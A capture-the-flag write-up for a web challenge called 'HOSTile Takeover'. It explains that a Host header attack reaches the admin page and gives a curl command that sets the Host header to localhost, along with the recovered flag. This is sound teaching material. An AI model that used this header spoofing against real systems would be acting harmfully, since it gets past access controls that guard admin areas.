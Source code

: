 # HOSTile Takeover
> Seems we're unable to access our important admin portal. It worked perfectly fine when we were at our headquarters. Can you help us out? Try to gain access to the admin page and find the secret key!

> https://nicc-hostile-takeover.chals.io

## About the Challenge
We have been given a website and We need to access the `/admin` endpoint

![preview](images/preview.png)

## How to Solve?
This chall is about `Host Header Attack`. We need to change the `Host` HTTP Header from `nicc-hostile-takeover.chals.io` to `localhost`. You can use `Repeater` on burpsuite or you can use `curl` like me

```
curl "https://nicc-hostile-takeover.chals.io/admin" -H "Host: localhost"
```

![flag](images/flag.png)

```
nicc{H0ST_H3AdEr_AtTack}
```